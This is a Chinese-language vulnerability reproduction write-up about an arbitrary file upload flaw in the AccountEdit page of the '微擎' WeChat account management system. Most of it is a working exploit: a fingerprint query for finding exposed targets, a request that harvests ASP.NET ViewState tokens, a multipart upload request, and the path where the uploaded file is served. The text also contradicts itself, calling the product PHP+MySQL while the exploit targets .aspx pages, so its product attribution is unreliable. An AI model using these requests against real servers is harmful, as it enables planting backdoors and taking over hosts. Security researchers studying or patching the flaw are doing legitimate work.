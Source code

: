 # 微擎微信公众号管理系统系统AccountEdit存在任意文件上传漏洞

# 一、漏洞简介
微擎是一款免费开源的微信公众号管理系统，基于目前流行的WEB2.0架构（php+mysql），支持在线升级和安装模块及模板，拥有良好的开发框架、成熟稳定的技术解决方案、活跃的第三方开发者及开发团队，依托微擎开放的生态系统，提供丰富的扩展功能。微擎系统 AccountEdit接口处存在任意文件上传漏洞，恶意攻击者可以上传恶意软件，例如后门、木马或勒索软件，以获取对服务器的远程访问权限或者破坏系统，对服务器造成极大的安全隐患。

# 二、影响版本
+ 微擎微信公众号管理系统

# 三、资产测绘
+ `body="/Widgets/WidgetCollection/"`
+ 特征![1715655966659-2691b81b-3f4e-405e-9818-bcae75084313.png](./img/KG8Se_y6bFrAXpwJ/1715655966659-2691b81b-3f4e-405e-9818-bcae75084313-147515.png)

# 四、漏洞复现
 1、获取__VIEWSTATE和__EVENTVALIDATION值  

```plain
GET /User/AccountEdit.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1715656132996-7dfb6248-fb87-4da1-a225-0c4bdac8a293.png](./img/KG8Se_y6bFrAXpwJ/1715656132996-7dfb6248-fb87-4da1-a225-0c4bdac8a293-876973.png)

 2、使用获取到的相应值上传文件  

```plain
POST /User/AccountEdit.aspx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data;boundary=---------------------------786435874t38587593865736587346567358735687

-----------------------------786435874t38587593865736587346567358735687
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwUJNjcyMTYyMDMwD2QWAmYPZBYCAgcPZBYCAgEQFgIeB2VuY3R5cGUFE211bHRpcGFydC9mb3JtLWRhdGFkFgICAQ8PFgIeBFRleHQFigI8TEkgY2xhc3M9VGFiSW4gaWQ9dGFiMSBzdHlsZT0nZGlzcGxheTonPjxBPuWfuuacrOS/oeaBrzwvQT4gPC9MST48TEkgY2xhc3M9VGFiT3V0IGlkPXRhYjQgIHN0eWxlPSdkaXNwbGF5Oic+PEEgIGhyZWY9L1VzZXIvQWNjb3VudEVkaXQuYXNweD90YWI9ND7pgInpobk8L0E+IDwvTEk+PExJIGNsYXNzPVRhYk91dCBpZD10YWI1ICBzdHlsZT0nZGlzcGxheTonPjxBICBocmVmPS9Vc2VyL0FjY291bnRFZGl0LmFzcHg/dGFiPTU+5a+G56CB6K6+572uPC9BPiA8L0xJPmRkZOX0i8mrnQ9ovw3e1OKO9NtVXO50
-----------------------------786435874t38587593865736587346567358735687
Content-Disposition: form-data; name="__EVENTVALIDATION"

/wEWBgKYv82vCAK8ko+sCwLj7JnWDwKavpXnAwKmyMubDAKW1typA0S4QAUrxTuiaAZtLTFPDJ6Hk6Mh
-----------------------------786435874t38587593865736587346567358735687
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$upload"; filename="ceshi.txt"
Content-Type: text/plain

nihaoanyun
-----------------------------786435874t38587593865736587346567358735687
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$bttnUpload"

上传图片
-----------------------------786435874t38587593865736587346567358735687
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$txtLastName"


-----------------------------786435874t38587593865736587346567358735687
Content-Disposition: form-data; name="ctl00$MyContentPlaceHolder$ctl00$txtEmail"


-----------------------------786435874t38587593865736587346567358735687--
```

![1715656234280-31951fd0-70ff-453f-a111-f22b770a31b4.png](./img/KG8Se_y6bFrAXpwJ/1715656234280-31951fd0-70ff-453f-a111-f22b770a31b4-490989.png)

3、访问上传文件

```plain
/_data/Uploads/xxx.txt
```

![1715656329056-51847e50-b1c8-4c99-8b34-5619819dc5ac.png](./img/KG8Se_y6bFrAXpwJ/1715656329056-51847e50-b1c8-4c99-8b34-5619819dc5ac-259114.png)

![1715656372427-2ad70d86-e7cc-4162-bbde-088bed453bac.png](./img/KG8Se_y6bFrAXpwJ/1715656372427-2ad70d86-e7cc-4162-bbde-088bed453bac-696343.png)



> 更新: 2024-05-14 11:15:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qntnmc5zz1xvm56h>